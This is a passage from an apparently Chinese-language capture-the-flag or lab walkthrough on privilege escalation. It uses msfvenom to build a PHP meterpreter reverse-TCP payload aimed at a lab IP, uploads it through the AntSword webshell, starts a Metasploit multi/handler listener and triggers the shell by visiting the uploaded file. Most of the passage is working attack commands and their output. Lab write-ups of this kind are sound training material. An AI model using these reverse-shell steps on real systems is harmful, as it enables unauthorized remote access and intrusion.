 
## 提权

1. 我们先反弹`shell` ，靶机自带的`nc`不支持`-e` ,所以我们需要上传反弹`shell`脚本然后包含
    - 生成脚本
        
        ```python
        msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.75.151 lport=1234 -f raw > getshell.php
        [-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
        [-] No arch selected, selecting arch: php from the payload
        No encoder specified, outputting raw payload
        Payload size: 1115 bytes
        ```
        
    - 在蚁🗡将脚本上传`upload`文件夹里
        
        ![image.png](image%2074.png)
        
    - `kali`打开`msf`监听
        
        ```python
        msf6 > use exploit/multi/handler 
        [*] Using configured payload generic/shell_reverse_tcp
        msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
        payload => php/meterpreter/reverse_tcp
        msf6 exploit(multi/handler) > set lhost 192.168.75.151
        lhost => 192.168.75.151
        msf6 exploit(multi/handler) > set lport 1234
        lport => 1234
        msf6 exploit(multi/handler) > run
        ```
        
    - 网页访问上传的脚本文件
        
        ![image.png](image%2075.png)
        